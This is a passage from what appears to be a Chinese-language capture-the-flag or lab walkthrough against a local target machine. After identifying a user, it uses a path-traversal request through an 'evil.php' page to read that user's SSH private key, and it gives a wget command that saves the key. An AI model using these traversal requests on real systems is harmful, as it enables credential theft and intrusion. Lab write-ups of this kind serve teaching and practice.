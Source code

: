 得到用户信息：

- mowree



#### 尝试读取其私钥文件

访问

[192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../home/mowree/.ssh/id_rsa](view-source:http://192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../home/mowree/.ssh/id_rsa)

![image-20250325135816446](assets/image-20250325135816446.png)



#### wget保存

```
wget 192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../home/mowree/.ssh/id_rsa -O id_rsa
cat id_rsa
```
